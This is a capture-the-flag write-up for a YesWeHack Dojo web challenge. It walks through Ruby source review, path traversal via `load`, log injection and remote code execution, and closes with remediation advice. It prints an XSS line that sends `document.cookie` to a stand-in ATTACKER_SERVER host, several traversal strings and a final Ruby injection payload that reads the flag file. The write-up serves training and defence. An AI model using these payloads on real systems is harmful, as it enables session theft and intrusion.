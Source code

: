 ```yaml
---
name: Hardware Monitor
event: YesWeHack Dojo 2025
category: Web
description: Writeup for Hardware Monitor (Web) - YesWeHack Dojo (2025) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# 08-25: Hardware Monitor

## Description

> We were recently hired to perform an authorized pentest and we were given access to their custom application that monitors the hardware usage for their server. It seems we can run custom backup scripts with our current authorization role. That seems interesting... right?

## Solution

In this writeup, we'll review the latest [YesWeHack](https://twitter.com/yeswehack) Dojo [challenge](https://dojo-yeswehack.com/challenge-of-the-month/dojo-44), created by [Brumens](https://twitter.com/Brumens2) 💜

Follow me on [Twitter](https://twitter.com/_CryptoCat) and [LinkedIn](https://www.linkedin.com/in/cryptocat) (and everywhere else 🔪) for more hacking content! 🥰

### Source code review

Starting with the setup code, we see the flag is stored in `/tmp` with a randomised filename. I snipped the `index.html` as it's purely frontend UI related, which doesn't look useful for this challenge.

#### setup.rb

```ruby
require 'fileutils'
require 'securerandom'

# Write flag script file with execute only
filenameflag = "flag_#{SecureRandom.hex(10)}.txt"
File.write("/tmp/#{filenameflag}", flag)

# Make web app folder structure and add files
FileUtils.mkdir_p '/tmp/app/views'
FileUtils.mkdir_p '/tmp/app/logs'
FileUtils.mkdir_p '/tmp/app/scripts'
Dir.chdir('/tmp/app')

File.write('scripts/bakup.rb', 'puts "PANIC PANIC PANIC AAAAH!!!"')

# Write the login page
File.write('views/index.html', '
<SNIP>
')
```

Next, we review the `bakup.rb` file. A script file path is created from `OUR_INPUT`, then later loaded from the `scripts/` directory (after calling `cleanpath`). Finally, the error logs are returned to the UI.

#### server.rb

```ruby
require 'erb'
require 'cgi'
require 'logger'
require 'pathname'

Dir.chdir('/tmp/app')

logger = Logger.new('logs/error.log')
logger.datetime_format = "%-m/%-d/%Y"

scriptFile = CGI.unescape("OUR_INPUT")
scriptFile = Pathname.new(scriptFile)

# Load given backup script
if scriptFile != '' then
    logger.info("Running bakup script #{scriptFile}")
    begin
        load "scripts/#{scriptFile.cleanpath}"
    rescue Exception => e
        logger.warn("The bakup script failed to run, error : #{e.message}")
    end
end

# Render the given page for our web application
puts ERB.new(IO.read("views/index.html")).result_with_hash({logs: File.read("logs/error.log")})
```

### Testing functionality

Since the vulnerable file is called `bakup.rb`, let's try to request this first.

![](./images/0.PNG)

It runs successfully! Let's try a directory traversal for `../../../../etc/passwd`

![](./images/1.PNG)

![](./images/2.PNG)

It did actually leak some values, interesting! I thought `scriptFile.cleanpath` would remove the `../` but apparently it just removes "consecutive slashes and useless dots", e.g. `..//..//..//..//etc/passwd` is converted to `../../../../etc/passwd` The problem is we don't know the name of the randomised flag.

I also noticed we can trigger an error trace by trying to re-run `logger.rb`.

![](./images/3.PNG)

I tried to fuzz some other files, e.g. `/proc/fd/0` (through 10), `/proc/self/cmdline`, `.env` files etc, but didn't find anything useful.

I noticed we can achieve XSS, e.g. input of `<b>meow</b>` will print bold and if we set an XSS to steal the cookie, we get the callback.

```html
</pre><img src="https://ATTACKER_SERVER/cookie?c="+document.cookie><pre>
```

We don't get a cookie though, and that's not where the flag is 😅

I look online for `logger.rb v1.6.4` vulnerabilities, but don't see much. Another thought; log injection + path traversal -> RCE?

### Log Injection

We know the path of the error log is `../logs/error.log` so if the log contained valid ruby code, would it run when passed to the `load` function?

Before entering testing with any ruby code, let's just try to run the file.

![](./images/4.PNG)

I don't know much about Ruby - initially I thought it was trying to execute each line. Unfortunately, from what I can gather, the syntax error on line 2 (`I,`) will prevent any further execution. In other words, the remaining errors are just related to failed parsing.

Since I'm out of ideas, I continue down this rabbit hole. Examining the functionality of `cleanPath`, I realise if we send the input `../logs/error.log/../PAYLOAD`, we get the following output.

```bash
# Logfile created on 2025-09-08 16:52:37 +0000 by logger.rb/v1.6.4
I, [9/8/2025 #7501]  INFO -- : Running bakup script ../logs/error.log/../PAYLOAD
W, [9/8/2025 #7501]  WARN -- : The bakup script failed to run, error : cannot load such file -- scripts/../logs/PAYLOAD
```

Notice that the INFO line shows `../logs/error.log/../PAYLOAD` whereas the WARN line shows `../logs/PAYLOAD`

However, we would want this the other way round. Send `../logs/PAYLOAD/../error.log` and we will see that it _does_ try to execute `../logs/error.log` _and_ our `PAYLOAD` is injected into that log first.

```bash
I, [9/8/2025 #7596]  INFO -- : Running bakup script ../logs/PAYLOAD/../error.log
W, [9/8/2025 #7596]  WARN -- : The bakup script failed to run, error : scripts/../logs/error.log:3: syntax errors found
  1 | # Logfile created on 2025-09-08 16:55:54 +0000 by logger.rb/v1.6.4
> 2 | I, [9/8/2025 #7596]  INFO -- : Running bakup script ../logs/PAYLOAD/../error.log
    | ^~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ unexpected write target
    |    ^~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ unexpected write target
    |                                                                                 ^ unexpected end-of-input; expected a `]` to close the array
```

We can verify this by sending `../logs/PAYLOAD/../error.logz` and seeing it no longer runs.

```bash
# Logfile created on 2025-09-08 17:08:35 +0000 by logger.rb/v1.6.4
I, [9/8/2025 #7995]  INFO -- : Running bakup script ../logs/PAYLOAD/../error.logz
W, [9/8/2025 #7995]  WARN -- : The bakup script failed to run, error : cannot load such file -- scripts/../logs/error.logz
```

We still can't just swap the `PAYLOAD` with a real one 😞 As discovered earlier, ruby is hitting an error at the beginning of the line (`I,`) and will not proceed.

I check the [recent releases](https://github.com/ruby/logger/releases) of the logger library and see that the most recent version (1.7.0) added a new feature; `Add skip_header option`. If this was enabled (or we could switch it on), maybe our attack plan would work? Unfortunately, we're using a version that's nearly a year old (1.6.4) so this feature did not exist.

I also tried with newlines, confirming that we _can_ still `load` the `error.log` as a file using this payload.

```bash
../logs/
PAYLOAD
/../error.log
```

I'm out of ideas - I've already looked at all [common file paths](https://www.yeswehack.com/learn-bug-bounty/practical-guide-path-traversal-attacks), to the extent that YWH blocked my IP for a little while 👀 I'd be extremely surprised if this was the correct approach because challenges always state "no automated tools", "no brute force" etc. Furthermore, what would be the point of including the `logger.rb` at all if we just had to read a local file?

### RCE

Unfortunately, I ran out of time and didn't solve the challenge. Now that the [writeups](https://www.yeswehack.com/dojo/dojo-ctf-challenge-winners-44) are released, I can see how close I got 😫

The path was correct; `log injection -> path traversal -> RCE`

The problem was me not fixing the ruby syntax! I had noticed that inserting a closing `]` would fix the first error, but I didn't break it down sufficiently to see what else was required. In fact, we needed to make quite a few changes (check [YWH blog](https://www.yeswehack.com/dojo/dojo-ctf-challenge-winners-44) for full explanation).

```ruby

][0]=1;f=Dir['/tmp/flag*.txt'][0];c=File.read(f);puts c#://../../../../logs/error.log
```

## Remediation

-   Don't trust user input. Replace `load` with a fixed dispatch or whitelist (map input to allowed actions).
-   Canonicalise paths to prevent directory traversal.
-   Don't leak detailed errors to users.

## Summary (TLDR)

The challenge featured an obvious path traversal vulnerability, but that alone is not enough to get the flag. Since the filename is randomised, we need RCE or some way to list/leak directory listings. In this case, the path traversal could be combined with log injection to execute some ruby code. Achieving RCE was complicated by the prepended lines in the log (dirty file write) and some understanding of ruby syntax and parsing was essential (hence I did not solve it 😸).
